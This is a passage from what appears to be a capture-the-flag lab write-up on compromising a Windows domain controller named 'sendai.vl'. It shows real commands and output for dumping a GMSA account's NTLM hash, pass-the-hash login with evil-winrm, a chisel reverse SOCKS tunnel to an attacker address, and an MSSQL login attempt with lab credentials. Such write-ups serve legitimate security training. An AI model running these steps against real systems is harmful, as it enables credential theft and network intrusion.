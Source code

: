 #### Step 3: Retrieve GMSA Password
Reading the GMSA password for `mgtsvc$`:
```
nxc ldap sendai.vl -u Elliot.Yates -p 'Pass!@#' --gmsa
LDAP        10.129.77.37    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
LDAPS       10.129.77.37    636    DC               [+] sendai.vl\Elliot.Yates:Pass!@# 
LDAPS       10.129.77.37    636    DC               [*] Getting GMSA Passwords
LDAPS       10.129.77.37    636    DC               Account: mgtsvc$              NTLM: eb19b37b20218824d3c29f753fd5f607     PrincipalsAllowedToReadPassword: admsvc
```

### WinRM Access
Using the GMSA hash to access the system via WinRM:
```
evil-winrm -i sendai.vl -u 'mgtsvc$' -H eb19b37b20218824d3c29f753fd5f607
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> 
```
User flag located at: `C:\user.txt`
## Privilege Escalation
### SQL Server Discovery
Internal port scanning reveals SQL Server running on localhost:
```
*Evil-WinRM* PS C:\> netstat -ano | findstr "LISTENING" | findstr 1433
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       988
  TCP    [::]:1433              [::]:0                 LISTENING       988
```
### Port Forwarding with Chisel
Setting up SOCKS5 tunnel to access the internal SQL Server:
**Attacker (Server):**
```
chisel server --reverse -p 8002 --socks5
2025/10/21 00:13:13 server: Reverse tunnelling enabled
2025/10/21 00:13:13 server: Fingerprint OF1WYvpFDpjAhbUrCRhkPv1wBkRgBqVx9X8UP9Me85M=
2025/10/21 00:13:13 server: Listening on http://0.0.0.0:8002
```
**Target (Client):**
```
*Evil-WinRM* PS C:\programdata> .\chisel.exe client --fingerprint OF1WYvpFDpjAhbUrCRhkPv1wBkRgBqVx9X8UP9Me85M= 10.10.14.210:8002 R:socks
chisel.exe : 2025/10/20 14:24:16 client: Connecting to ws://10.10.14.210:8002
    + CategoryInfo          : NotSpecified: (2025/10/20 14:2....10.14.210:8002:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2025/10/20 14:24:17 client: Fingerprint OF1WYvpFDpjAhbUrCRhkPv1wBkRgBqVx9X8UP9Me85M=2025/10/20 14:24:18 client: Connected (Latency 204.8217ms)
```
### SQL Server Access Attempt
Initial connection with `sqlsvc` credentials shows limited privileges:
```
proxychains impacket-mssqlclient  sendai.vl/sqlsvc:SurenessBlob85@localhost -windows-auth 
[proxychains] config file found: /etc/proxychains4.conf
```
